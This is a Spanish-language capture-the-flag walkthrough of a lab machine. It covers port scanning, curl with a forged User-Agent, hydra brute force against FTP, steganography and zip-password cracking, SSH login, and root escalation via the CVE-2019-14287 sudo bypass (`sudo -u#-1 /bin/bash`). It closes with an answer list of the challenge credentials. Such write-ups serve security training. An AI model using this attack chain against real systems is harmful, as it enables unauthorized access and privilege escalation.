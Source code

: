 # Recon
Iniciamos el reconocimiento escaneando los puertos abiertos utilizando la herramienta nmap ejecutando el siguiente comando : `sudo nmap -sS -p- --open --min-rate 4000 -Pn -T4 -n -vv IPTARGET -oN nmap`

```ruby
Nmap scan report for IPTARGET
Host is up, received user-set (0.23s latency).
Scanned at 2023-02-14 00:35:05 EST for 63s
Not shown: 64807 closed tcp ports (reset), 725 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```
##  
 Nuestro escaneo nos muestra 3 puertos abiertos, del cual podremos abusarnos para extraer cualquier tipo de informacion que se nos presente.

Para seguir el reconocimiento y obtener la mayor cantidad de informacion posible, visitaremos el puerto 80 (http).  Al visitar la pagina web, veremos una comunicacion entre los agentes para tener acceso al sitio web. Podemos abusarnos de esta informacion utilizando __curl__ , que nos dara respuesta del servidor para leer los mensajes a otros agentes.

```ruby
curl http://IPTARGET -H User-Agent: A -L
curl http://IPTARGET -H User-Agent: B -L
curl http://IPTARGET -H "User-Agent: C" -L ---> Mensaje oculto
curl http://IPTARGET -H User-Agent: D -L
curl http://IPTARGET -H User-Agent: E -L
```

# Brute-Force

En el mensaje, pudrimos descubrir un usuario "__chris__". 
Con esta informacion en mano, intentaremos realizar un ataque de fuerza bruta para descubrir sus credenciales, utilizaremos la herramienta hydra para esta tarea, pero... en que servicio?. Si nos fijamos en nuestro escaneo de nmap, podremos ver que el puerto 21 (ftp) se encuentra abierto, por lo que le solicitaremos a hydra que lo realice en ese servicio.

 Ejecutamos el siguiente comando : `hydra -l chris -P wordlist IPTARGET ftp` 
 Este procedimiento puede demorar algunos minutos-horas. 


# Intrusion

Una vez obtuvimos las credenciales, ingresamos al servicio abierto, ftp.
Ejecutamos : `ftp IPTARGET` , nos preguntara nuestro username y password.

Una vez dentro, nos transferimos los archivos dentro del servicio..

>`get Alien_autospy.jpg`
>`get cute-alien.jpg`
>`get cutie.png`


## 
Cuando nos encontramos con imagenes, lo primero que se nos tiene que venir a la mente es que es muy probable que contengan archivos o textos ocultos dentro. Para ello, utilizaremos las herramientas :   `binwalk `   `steghide`   `exiftool`

```ruby
binwalk -e cutie.png --> archivo zip oculto
```
### John

John es una popular herramienta de descifrado de contraseñas de código abierto que se utiliza para descubrir contraseñas débiles
Tambien puede ser utilizada para descubrir contraseñas protegidas en formato zip, en nuestro caso utilizaremos esta herramienta para descubrir su contendio

`zip2john 8702.zip > pass.txt`

Una vez obtuvimos la respuesta de john, la descubriremos utilizando una wordlist de confianza (rockyou.txt), para conocer su contraseña protegida.

`john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt`


Descomprimimos el zip ejecutando : `7z e 8702.zip`. Obtenemos un codigo en base64 que deberemos decoficar.. Hay muchas formas para decodificar un texto en base64, utiliza la que sea mas practica para vos, en mi caso voy a realizar un echo y que me lo muestre decodificado en base64 : `echo "QXJlYTUx" | base64 -d` 

#### Steghide

Esta password que acabamos de descubrir, deberemos utilizarla en steghide para extraer 
informacion dentro de las otras imagenes que obtuvimos dentro del servicio ftp.

```ruby
steghide extract -sf
steghide extract -sf Cute-alien.jpg

```

##### 
Obtuvimos un mensaje, dirigida a __james__  que le redacta una password de logeo.
 Nuevamente en nuestro escaneo de nmap, encontraremos el puerto 22 (ssh) abierto, por lo que si utilizamos las credenciales que encontramos en este proceso podremos acceder existosamente.

##### SSH

Ejecutaremos el siguiente comando para acceder via ssh : `ssh james@IPTARGET`

# Priv. Escalation

Para escalar privilegios, debemos enumerar el sistema y descubrir la mayor cantidad de formas posibles para poder abusarnos del sistema. 

Para este metodo, listaremos los permisos sudo del usuario __james__ : `sudo -l`
__james__ tiene permisos alojados en /bin/bash. Para esta ocasion, buscaremos dentro de cualquier research de vulnerabilidades a eleccion, o bien utulizando __google__ que nos brindara informacion sobre como abusarnos de este permiso, si es que se descubrio la vulnerabilidad.

Luego de buscar utilizando google, entraremos al sitio web __exploit-db__  y descubriremos el numero de esta vulnerabilidad o __CVE__ . #CVE-2019-14287

__Exploit-db__ nos dice, que para poder escalar privilegios dentro de este sistema, deberemos ejecutar el siguiente comando : `sudo -u#-1 /bin/bash` y nos abrira una shell con permisos #ROOT. 

Ya podremos reclamar nuestra flag !


# Respuestas

Si te sientes atascado, o no queres esperar, aca tenes la lista de respuestas!

#ftp = chris:crystal
#zip = alien
#steghide = Area51
#ssh = james:hackerrules!


